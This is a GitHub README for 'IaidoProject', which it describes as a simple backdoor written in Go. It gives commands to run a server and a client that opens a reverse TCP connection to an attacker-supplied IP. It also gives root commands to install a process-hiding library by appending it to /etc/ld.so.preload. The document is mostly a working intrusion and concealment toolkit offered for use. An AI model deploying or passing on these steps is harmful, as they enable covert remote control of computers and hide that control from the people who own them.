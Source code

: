 <p align="center">
  <img src="https://vsoch.github.io/assets/images/posts/learning-go/gophercises_jumping.gif" width="420" height="440">
</p>

       	                            A Simple Backdoor Written in Go

---

<p align="center">
	How to Install?
</p>

```bash
git clone https://github.com/T0k1To/IaidoProject
```
---

<p align="center">
	Server Usage:
</p>

```bash
cd IaidoProject
```
```bash
go run IaidoSV.go
```
---

<p align="center">
	Client Usage:
</p>

```bash
cd IaidoProject
```
```bash
cd bin
```
```bash
./Iaido
```
- Wait to load and insert your ip to receive the reverse tcp connection and enjoy =]
---

<p align="center">
	What is processhider.c?
</p>

```This is a simple C code to hide a process in Linux using ld preloader by Gianluca Borello!```

<p align="center">
	processhider.c Usage:
</p>

`With root proceed:`

```bash
cd IaidoProject
```
```bash
make
```
```bash
sudo mv libprocesshider.so /usr/local/lib/
```
```bash
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

- References and Credits:
  - https://sysdig.com/blog/hiding-linux-processes-for-fun-and-profit/

  - https://github.com/gianlucaborello/libprocesshider

---
